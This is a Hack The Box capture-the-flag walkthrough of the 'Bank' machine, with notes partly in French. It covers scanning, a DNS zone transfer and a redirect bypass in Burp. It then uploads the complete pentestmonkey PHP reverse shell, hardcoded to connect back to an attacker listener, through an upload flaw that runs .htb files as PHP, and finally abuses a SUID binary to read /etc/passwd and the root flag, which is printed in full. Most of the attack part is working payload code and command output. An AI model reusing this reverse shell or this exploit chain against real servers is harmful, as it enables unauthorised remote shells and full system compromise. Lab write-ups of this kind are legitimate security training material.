

# HTB - Bank 10.10.10.29


## Nmap


```
# nmap -sC -sV -A 10.10.10.29
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-08 21:31 CEST
Nmap scan report for 10.10.10.29
Host is up (0.031s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=9/8%OT=22%CT=1%CU=44673%PV=Y%DS=2%DC=T%G=Y%TM=5D755734
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11
OS:NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(
OS:R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   29.74 ms 10.10.14.1
2   29.81 ms 10.10.10.29

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.11 seconds

```


## 53/tcp open  domain  ISC BIND

Bind, donc certainement une gestion du dns

ajout d'une entrée dans /etc/hosts
10.10.10.29   bank bank.htb

```
# dig axfr @10.10.10.29 bank.htb

; <<>> DiG 9.11.4-P2-3-Debian <<>> axfr @10.10.10.29 bank.htb
; (1 server found)
;; global options: +cmd
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
bank.htb.		604800	IN	NS	ns.bank.htb.
bank.htb.		604800	IN	A	10.10.10.29
ns.bank.htb.		604800	IN	A	10.10.10.29
www.bank.htb.		604800	IN	CNAME	bank.htb.
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
;; Query time: 32 msec
;; SERVER: 10.10.10.29#53(10.10.10.29)
;; WHEN: dim. sept. 08 21:37:04 CEST 2019
;; XFR size: 6 records (messages 1, bytes 171)

```
=> chris.bank.htb


## http://bank.htb




## http://support.php

Redirect to index.php, but befor redirecting...
```
HTTP/1.1 302 Found
Date: Sun, 08 Sep 2019 19:38:46 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.21
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
location: login.php
Content-Length: 3291
Connection: close
Content-Type: text/html


<div class="col-sm-5">
    <div class="panel panel-primary">
        <div class="panel-heading">
            <h3 style="font-size: 20px;">My Tickets</h3>
        </div>
        <div class="panel-body">
		    <div class="content-box-large">
		        <div class="panel-body">
		            <table class="table table-bordered">
		                <thead>
		                    <tr>
		                        <th>#</th>
		                        <th>Title</th>
		                        <th>Message</th>
		                        <th>Attachment</th>
                                        <th>Actions</th>
		                    </tr>
		                </thead>
		                <tbody>
		                    		                </tbody>
		            </table>
		        </div>
		    </div>
		</div>
    </div>
</div>
<!-- New Ticket -->
<div class="col-sm-5">
    <section class="panel">

        <div class="panel-body">
            <form class="new_ticket" id="new_ticket" accept-charset="UTF-8" method="post" enctype="multipart/form-data">

                <label>Title</label>
                <input required placeholder="Title" class="form-control" type="text" name="title" id="ticket_title" style="background-repeat: repeat; background-image: none; background-position: 0% 0%;">
                <br>

                <label>Message</label>
                <textarea required placeholder="Tell us your problem" class="form-control" style="height: 170px; background-repeat: repeat; background-image: none; background-position: 0% 0%;" name="message" id="ticket_message"></textarea>
                <br>
                <div style="position:relative;">
                		<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
				        <a class='btn btn-primary' href='javascript:;'>
				            Choose File...
				            <input type="file" required style='position:absolute;z-index:2;top:0;left:0;filter: alpha(opacity=0);-ms-filter:"progid:DXImageTransform.Microsoft.Alpha(Opacity=0)";opacity:0;background-color:transparent;color:transparent;' name="fileToUpload" size="40"  onchange='$("#upload-file-info").html($(this).val().replace("C:\\fakepath\\", ""));'>
				        </a>
				        &nbsp;
				        <span class='label label-info' id="upload-file-info"></span>
				</div>
				<br>
                <button name="submitadd" type="submit" class="btn btn-primary mt20" data-disable-with="<div class=&quot;loading-o&quot; style=&quot;padding: 7px 21px;&quot;></div>">Submit</button>
            </form>

        </div>

    </section>

</div>

        </div>
        <!-- /#page-wrapper -->

    </div>
    <!-- /#wrapper -->

    <!-- jQuery -->
    <script src="./assets/js/jquery.js"></script>

    <!-- Bootstrap Core JavaScript -->
    <script src="./assets/js/bootstrap.min.js"></script>

    <!-- Morris Charts JavaScript -->
    <script src="./assets/js/plugins/morris/raphael.min.js"></script>
    <script src="./assets/js/plugins/morris/morris.min.js"></script>
    <script src="./assets/js/plugins/morris/morris-data.js"></script>

    <!-- SweetAlert -->
    <script src="./assets/js/sweetalert.min.js"></script>

</body>

</html>
```
Post form
[DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] 


## Try to upload file with curl...

curl -d "title=bob&message=bab" -d "@shell.php.htb" -X POST http://bank.htb/support.php

Fail

## Catch request with Burp

Option -> Intercept Server Response

Intercept Request [Action] -> Intercept response

Replace 402 par 200 OK
Remove location: login.php

Post
```
POST /support.php HTTP/1.1
Host: bank.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://bank.htb/support.php
Content-Type: multipart/form-data; boundary=---------------------------2743552131115880548902981842
Content-Length: 6069
Cookie: HTBBankAuth=0njbisebq8jthtldkp7hae62r2
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------2743552131115880548902981842
Content-Disposition: form-data; name="title"

tt
-----------------------------2743552131115880548902981842
Content-Disposition: form-data; name="message"

mm
-----------------------------2743552131115880548902981842
Content-Disposition: form-data; name="fileToUpload"; filename="shell.htb"
Content-Type: application/octet-stream

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.32';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 


-----------------------------2743552131115880548902981842
Content-Disposition: form-data; name="submitadd"


-----------------------------2743552131115880548902981842--
```

Response

```
HTTP/1.1 302 Found
Date: Sun, 08 Sep 2019 20:28:52 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.21
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
location: login.php
Content-Length: 3540
Connection: close
Content-Type: text/html


<div class="col-sm-5">
    <div class="panel panel-primary">
        <div class="panel-heading">
            <h3 style="font-size: 20px;">My Tickets</h3>
        </div>
        <div class="panel-body">
		    <div class="content-box-large">
		        <div class="panel-body">
		            <table class="table table-bordered">
		                <thead>
		                    <tr>
		                        <th>#</th>
		                        <th>Title</th>
		                        <th>Message</th>
		                        <th>Attachment</th>
                                        <th>Actions</th>
		                    </tr>
		                </thead>
		                <tbody>
		                    <tr><td>1</td><td>tt</td><td>mm</td><td><a href='http://bank.htb/uploads/shell.htb'>Click Here</a></td><td><a href='delete-ticket.php?id=1'>Delete</a></td></tr>		                </tbody>
		            </table>
		        </div>
		    </div>
		</div>
    </div>
</div>
<!-- New Ticket -->
<div class="col-sm-5">
    <section class="panel">

        <div class="panel-body">
            <form class="new_ticket" id="new_ticket" accept-charset="UTF-8" method="post" enctype="multipart/form-data">

                <label>Title</label>
                <input required placeholder="Title" class="form-control" type="text" name="title" id="ticket_title" style="background-repeat: repeat; background-image: none; background-position: 0% 0%;">
                <br>

                <label>Message</label>
                <textarea required placeholder="Tell us your problem" class="form-control" style="height: 170px; background-repeat: repeat; background-image: none; background-position: 0% 0%;" name="message" id="ticket_message"></textarea>
                <br>
                <div style="position:relative;">
                		<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
				        <a class='btn btn-primary' href='javascript:;'>
				            Choose File...
				            <input type="file" required style='position:absolute;z-index:2;top:0;left:0;filter: alpha(opacity=0);-ms-filter:"progid:DXImageTransform.Microsoft.Alpha(Opacity=0)";opacity:0;background-color:transparent;color:transparent;' name="fileToUpload" size="40"  onchange='$("#upload-file-info").html($(this).val().replace("C:\\fakepath\\", ""));'>
				        </a>
				        &nbsp;
				        <span class='label label-info' id="upload-file-info"></span>
				</div>
				<br>
                <button name="submitadd" type="submit" class="btn btn-primary mt20" data-disable-with="<div class=&quot;loading-o&quot; style=&quot;padding: 7px 21px;&quot;></div>">Submit</button>
            </form>

        </div>

    </section>

</div>

        </div>
        <!-- /#page-wrapper -->

    </div>
    <!-- /#wrapper -->

    <!-- jQuery -->
    <script src="./assets/js/jquery.js"></script>

    <!-- Bootstrap Core JavaScript -->
    <script src="./assets/js/bootstrap.min.js"></script>

    <!-- Morris Charts JavaScript -->
    <script src="./assets/js/plugins/morris/raphael.min.js"></script>
    <script src="./assets/js/plugins/morris/morris.min.js"></script>
    <script src="./assets/js/plugins/morris/morris-data.js"></script>

    <!-- SweetAlert -->
    <script src="./assets/js/sweetalert.min.js"></script>

</body>

</html>
<script>swal("Success", "Your ticket has been created successfully", "success");</script>
```

### Shell

```
http://bank.htb/uploads/shell.htb

# nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.32] from bank [10.10.10.29] 55608
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 athlon i686 GNU/Linux
 23:32:35 up  1:10,  0 users,  load average: 0.13, 0.10, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
$ cat /home/chris/user.txt
XXXXXXXXXXXX
```

## System

```
$ cat /etc/issue
Ubuntu 14.04.5 LTS \n \l

$ uname -a
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 athlon i686 GNU/Linux
```


## Priv Esc

```
$ find / -perm -4000 2>/dev/null | xargs ls -al
-rwsr-xr-x 1 root    root        30112 May 15  2015 /bin/fusermount
-rwsr-xr-x 1 root    root        88752 Nov 24  2016 /bin/mount
-rwsr-xr-x 1 root    root        38932 May  8  2014 /bin/ping
-rwsr-xr-x 1 root    root        43316 May  8  2014 /bin/ping6
-rwsr-xr-x 1 root    root        35300 May 17  2017 /bin/su
-rwsr-xr-x 1 root    root        67704 Nov 24  2016 /bin/umount
-rwsr-sr-x 1 daemon  daemon      46652 Oct 21  2013 /usr/bin/at
-rwsr-xr-x 1 root    root        44620 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root    root        35916 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root    root        66284 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root    root        72860 Oct 21  2013 /usr/bin/mtr
-rwsr-xr-x 1 root    root        30984 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root    root        45420 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root    root        18168 Nov 24  2015 /usr/bin/pkexec
-rwsr-xr-x 1 root    root       156708 May 29  2017 /usr/bin/sudo
-rwsr-xr-x 1 root    root        18136 May  8  2014 /usr/bin/traceroute6.iputils
-rwsr-xr-- 1 root    messagebus 333952 Dec  7  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root    root         5480 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root    root       492972 Aug 11  2016 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root    root         9808 Nov 24  2015 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root    dip        323000 Apr 21  2015 /usr/sbin/pppd
-rwsr-sr-x 1 libuuid libuuid     17996 Nov 24  2016 /usr/sbin/uuidd
-rwsr-xr-x 1 root    root       112204 Jun 14  2017 /var/htb/bin/emergency

$ file /var/htb/bin/emergency
/var/htb/bin/emergency: setuid ELF 32-bit LSB  shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=1fff1896e5f8db5be4db7b7ebab6ee176129b399, stripped

$ cat /proc/sys/kernel/randomize_va_space
2

readelf -W -l /var/htb/bin/emergency 2>/dev/null | grep ‘GNU_STACK’ | grep -q ‘RWE’ 

readelf -W -l /var/htb/bin/emergency 2>/dev/null

Elf file type is DYN (Shared object file)
Entry point 0x2ef2
There are 9 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x00000034 0x00000034 0x00120 0x00120 R E 0x4
  INTERP         0x000154 0x00000154 0x00000154 0x00013 0x00013 R   0x1
      [Requesting program interpreter: /lib/ld-linux.so.2]
  LOAD           0x000000 0x00000000 0x00000000 0x1a3c0 0x1a3c0 R E 0x1000
  LOAD           0x01a654 0x0001b654 0x0001b654 0x00acc 0x032a0 RW  0x1000
  DYNAMIC        0x01ad34 0x0001bd34 0x0001bd34 0x000f8 0x000f8 RW  0x4
  NOTE           0x000168 0x00000168 0x00000168 0x00044 0x00044 R   0x4
  GNU_EH_FRAME   0x016204 0x00016204 0x00016204 0x007e4 0x007e4 R   0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10      =====> Non ex
  GNU_RELRO      0x01a654 0x0001b654 0x0001b654 0x009ac 0x009ac R   0x1

 Section to Segment mapping:
  Segment Sections...
   00     
   01     .interp 
   02     .interp .note.ABI-tag .note.gnu.build-id .gnu.hash .dynsym .dynstr .gnu.version .gnu.version_r .rel.dyn .rel.plt .init .plt .text .fini .rodata .eh_frame_hdr .eh_frame 
   03     .init_array .fini_array .jcr .data.rel.ro .dynamic .got .data .bss 
   04     .dynamic 
   05     .note.ABI-tag .note.gnu.build-id 
   06     .eh_frame_hdr 
   07     
   08     .init_array .fini_array .jcr .data.rel.ro .dynamic .got 


```

=>> Ret2LibC with ALSR....

```

$ for i in `seq 1000 1000`; do echo $i; /var/htb/bin/emergency $(python -c "print 'A'*$i"); done;
1000
/var/htb/bin/emergency: 0: Can't open AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ /var/htb/bin/emergency /etc/passwd
/etc/passwd: 1: /etc/passwd: root:x:0:0:root:/root:/bin/bash: not found
/etc/passwd: 2: /etc/passwd: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin: not found
/etc/passwd: 3: /etc/passwd: bin:x:2:2:bin:/bin:/usr/sbin/nologin: not found
/etc/passwd: 4: /etc/passwd: sys:x:3:3:sys:/dev:/usr/sbin/nologin: not found
/etc/passwd: 5: /etc/passwd: sync:x:4:65534:sync:/bin:/bin/sync: not found
/etc/passwd: 6: /etc/passwd: games:x:5:60:games:/usr/games:/usr/sbin/nologin: not found
/etc/passwd: 7: /etc/passwd: man:x:6:12:man:/var/cache/man:/usr/sbin/nologin: not found
/etc/passwd: 8: /etc/passwd: lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin: not found
/etc/passwd: 9: /etc/passwd: mail:x:8:8:mail:/var/mail:/usr/sbin/nologin: not found
/etc/passwd: 10: /etc/passwd: news:x:9:9:news:/var/spool/news:/usr/sbin/nologin: not found
/etc/passwd: 11: /etc/passwd: uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin: not found
/etc/passwd: 12: /etc/passwd: proxy:x:13:13:proxy:/bin:/usr/sbin/nologin: not found
/etc/passwd: 13: /etc/passwd: www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin: not found
/etc/passwd: 14: /etc/passwd: backup:x:34:34:backup:/var/backups:/usr/sbin/nologin: not found
/etc/passwd: 15: /etc/passwd: list:x:38:38:Mailing: not found
/etc/passwd: 16: /etc/passwd: irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin: not found
/etc/passwd: 17: /etc/passwd: Syntax error: "(" unexpected
$ 
$ 
$ /var/htb/bin/emergency /root/root.txt
/root/root.txt: 1: /root/root.txt: d5be56adc67b488f81a4b9de30c8a68e: not found
$ 

```